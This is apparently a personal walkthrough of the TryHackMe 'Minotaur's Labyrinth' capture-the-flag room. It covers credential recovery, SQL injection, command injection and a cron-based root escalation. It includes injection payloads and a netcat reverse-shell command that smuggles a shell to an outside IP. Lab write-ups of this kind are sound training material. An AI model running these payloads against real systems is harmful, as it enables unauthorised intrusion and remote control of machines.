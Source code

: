 # Minotaur's Labyrinth CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Minotaur's Labyrinth** CTF challenge on [TryHackMe](https://tryhackme.com/room/labyrinth8llv). 
---

after scanning we see open ports: 21, 80, 443, 3306

![scn](imgs/scn.png "scn")

in ftp I managed to get 3 hidden files including one flag, we also have few notes saying to look around

![ftp1](imgs/ftp1.png "ftp1")

![ftp2](imgs/ftp2.png "ftp2")

by looking at the web site on port 80 we see a login page

![l](imgs/l.png "l")

we can also find /js/login.js with some comments, if we take a look we see coded password for user Daedalus, we can decode it to get his password and login to user panel

![cm](imgs/cm.png "cm")

![p](imgs/p.png "p")

we see some comment in panel source 

![c](imgs/c.png "c")

there is also /js/userlvl.js

![lvl](imgs/lvl.png "lvl")

by using simple SQLi we can get diffrent passwords

![sqli1](imgs/sqli1.png "sqli1")

by using crackstation we found a few plain text passwords

![crack1](imgs/crack1.png "crack1")

we can do the same for `creatures` table

![sqli2](imgs/sqli2.png "sqli2")

![crack2](imgs/crack2.png "crack2")

now we can try to login as those users, most interesting user is M!n0taur because we see other panel and additional info and another flag

![adm](imgs/adm.png "adm")

we found secret echo-panel

![e](imgs/e.png "e")

if we input: `test` we will get the same output, but if we try: `" id;` we see some error message

![er](imgs/er.png "er")

few methods seem to work, we can use `` `id` `` or `test | id`

![id](imgs/id.png "id")

we can use this command to gain reverse shell as deamon

```
test | busybox nc 10.14.91.59 8888 -e /bin/bash
```

![rs](imgs/rs.png "rs")

now we can grab user flag

![rss](imgs/rss.png "rss")

![user](imgs/user.png "user")

linpeas found `/timers/timer.sh` and it seems odd and i remember that one note from ftp mentioned something about timer

![lin](imgs/lin.png "lin")

the script mentions `/reminders/dontforget.txt`

![pr](imgs/pr.png "pr")

![sc](imgs/sc.png "sc")

we can see in pspy64 that the script is executed every minute

![pspy](imgs/pspy.png "pspy")

i added reverse shell inside /timers/timer.sh

![rs2](imgs/rs2.png "rs2")

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
